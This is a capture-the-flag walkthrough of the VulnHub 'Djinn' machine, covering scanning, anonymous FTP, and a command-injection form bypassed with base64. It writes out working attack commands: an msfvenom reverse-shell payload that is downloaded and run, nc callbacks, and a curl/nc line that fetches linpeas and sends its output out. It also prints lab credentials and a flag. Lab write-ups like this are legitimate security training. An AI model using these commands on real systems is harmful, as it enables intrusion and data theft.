


# Djinn - VulnHub Machine

Kernel:
>Linux djinn 4.15.0-66-generic #75-Ubuntu SMP Tue Oct 1 05:24:09 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

## Nmap Scan
```
# Nmap 7.91 scan initiated Sat Nov 21 13:20:29 2020 as: nmap -sV -sC -p- -T4 -oA allports.sV.sC 10.1.62.43
Nmap scan report for 10.1.62.43
Host is up (0.00037s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              11 Oct 20  2019 creds.txt
| -rw-r--r--    1 0        0             128 Oct 21  2019 game.txt
|_-rw-r--r--    1 0        0             113 Oct 21  2019 message.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.1.62.42
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
1337/tcp open  waste?
| fingerprint-strings:
|   NULL, RPCCheck:
|     ____ _____ _
|     ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___
|     \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
|     ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
|     Let's see how good you are with simple maths
|     Answer my questions 1000 times and I'll give you your gift.
|_    '+', 3)
7331/tcp open  http    Werkzeug httpd 0.16.0 (Python 2.7.15+)
|_http-title: Lost in space
```

## FTP

FTP server has some interesting files.

*creds.txt*
>nitu:81299

*game.txt*
```
Oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the final level and get the prize.
```


## Port 1337
There is a TCP service running on port 1337:
```
disastrpc djinn λ nc -nv 10.1.62.43 1337
(UNKNOWN) [10.1.62.43] 1337 (?) open
  ____                        _____ _                
 / ___| __ _ _ __ ___   ___  |_   _(_)_ __ ___   ___ 
| |  _ / _` | '_ ` _ \ / _ \   | | | | '_ ` _ \ / _ \
| |_| | (_| | | | | | |  __/   | | | | | | | | |  __/
 \____|\__,_|_| |_| |_|\___|   |_| |_|_| |_| |_|\___|
                                                     

Let's see how good you are with simple maths
Answer my questions 1000 times and I'll give you your gift.
(2, '+', 3)
```

## Port 7331 - HTTP (RCE Exploit)

Port 7331 is running a service that takes a cmd as a post parameter and executes it:

```
<body>
  <form method="POST" action="/wish">
  <p>Oh you found me then go on make a wish.</p>>

   <p>This can make all your wishes come true</p>

    
    Execute: <input type="text" name="cmd" required><br>
    <input type="submit" value="Submit">
    </form>
```

We can issue a request using Burp and then see the execution results in the source of the response:




It seems like there is some badchar filtering, as the server replies with "wrong choice of words".

Badchars:
>./

To bypass this filter we can *base64* encode commands.

For example, the following command which contains restricted characters:
>nc -nv 10.1.62.42 4242

Passing it as a base64 string as the POST parameter, piping it to base64 on the target machine for decoding, then executing it with sh yielded us a connection back to our machine.

>cmd=echo 'bmMgLW52IDEwLjEuNjIuNDIgNDI0Mgo=' | base64 --decode | sh

Setup listener on port 4242:
```
disastrpc djinn λ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.1.62.42] from (UNKNOWN) [10.1.62.43] 41730
```

Serve exploit directory on port 4000:
```
disastrpc djinn λ python3 -m http.server 4000
Serving HTTP on 0.0.0.0 port 4000 (http://0.0.0.0:4000/) ...
10.1.62.43 - - [21/Nov/2020 16:23:54] "GET /rev4242 HTTP/1.1" 200 -
```

Create payload and encode commands to send over. First stage downloads payload, seconds stage executes. 

```
disastrpc djinn λ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.1.62.42 LPORT=4242 -e x86/shikata_ga_nai -f elf > rev4242
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 101 (iteration=0)
x86/shikata_ga_nai chosen with final size 101
Payload size: 101 bytes
Final size of elf file: 221 bytes
disastrpc djinn λ echo 'wget 10.1.62.42:4000/rev4242' | base64
d2dldCAxMC4xLjYyLjQyOjQwMDAvcmV2NDI0Mgo=
disastrpc djinn λ echo 'chmod 755 rev4242 && ./rev4242' | base64
Y2htb2QgNzU1IHJldjQyNDIgJiYgLi9yZXY0MjQyCg==
```

We execute our requests using Burp Repeater:



And catch our shell:

```
disastrpc djinn λ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.1.62.42] from (UNKNOWN) [10.1.62.43] 41734
whoami
www-data
```

## Local Enum

Home dir users
>nitish
>sam

**Linpeas**

Download and execute linpeas. Also exfiltrates report to nc listening on port 4000 then cleans up.
>$ curl 10.1.62.42/linpeas.sh > lp && bash lp > lp.enum && nc -nv 10.1.62.42 4000 < lp.enum && rm lp lp.enum

Notes
- Service running on *127.0.0.53:53*
- nitish creds: nitish:p4ssw0rdStr3r0n9


user.txt
```
nitish@djinn:~$ cat user.txt 
10aay8289ptgguy1pvfa73alzusyyx3c
```